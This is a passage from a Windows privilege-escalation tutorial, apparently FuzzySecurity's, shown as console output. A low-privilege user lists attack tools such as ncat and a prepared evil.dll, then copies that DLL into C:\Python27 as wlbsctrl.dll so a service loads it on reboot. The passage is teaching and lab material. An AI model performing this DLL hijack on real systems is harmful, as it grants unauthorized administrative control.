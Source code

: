 **# Again, this is as low privilege user1.**C:\Users\user1\Desktop> dir Volume in drive C has no label.

Volume Serial Number is 948D-A98F
Directory of C:\Users\user1\Desktop
02/18/2014 01:49 PM <DIR> .
02/18/2014 01:49 PM <DIR> ..
04/22/2013 09:39 AM 331,888 accesschk.exe
02/18/2014 12:38 PM 14,336 evil.dll
01/25/2014 12:46 AM 36,864 fubar.exe
01/22/2014 08:17 AM <DIR> incognito2
06/30/2011 01:52 PM 1,667,584 ncat.exe
11/22/2013 07:39 PM 1,225 wmic_info.bat
5 File(s) 2,051,897 bytes

3 Dir(s) 73,052,160 bytes freeC:\Users\user1\Desktop> copy evil.dll C:\Python27\wlbsctrl.dll 1 file(s) copied.C:\Users\user1\Desktop> dir C:\Python27 Volume in drive C has no label.

Volume Serial Number is 948D-A98F
Directory of C:\Python27
02/18/2014 01:53 PM <DIR> .
02/18/2014 01:53 PM <DIR> ..
10/20/2012 02:52 AM <DIR> DLLs
10/20/2012 02:52 AM <DIR> Doc
10/20/2012 02:52 AM <DIR> include
01/28/2014 03:45 AM <DIR> Lib
10/20/2012 02:52 AM <DIR> libs
04/10/2012 11:34 PM 40,092 LICENSE.txt
04/10/2012 11:18 PM 310,875 NEWS.txt
04/10/2012 11:31 PM 26,624 python.exe
04/10/2012 11:31 PM 27,136 pythonw.exe
04/10/2012 11:18 PM 54,973 README.txt
10/20/2012 02:52 AM <DIR> tcl
10/20/2012 02:52 AM <DIR> Tools
04/10/2012 11:31 PM 49,664 w9xpopen.exe
02/18/2014 12:38 PM 14,336 wlbsctrl.dll
7 File(s) 523,700 bytes
9 Dir(s) 73,035,776 bytes free

Everything is set up, all we need to do now is wait for a system reboot. For demo purposes I have included a screenshot below where I use an Administrator command prompt to manually restart the service.

 [![](../_resources/efa62427e8332d63bedcb45dcd57f13f.png)](http://www.fuzzysecurity.com/tutorials/images/priv03_big.png)
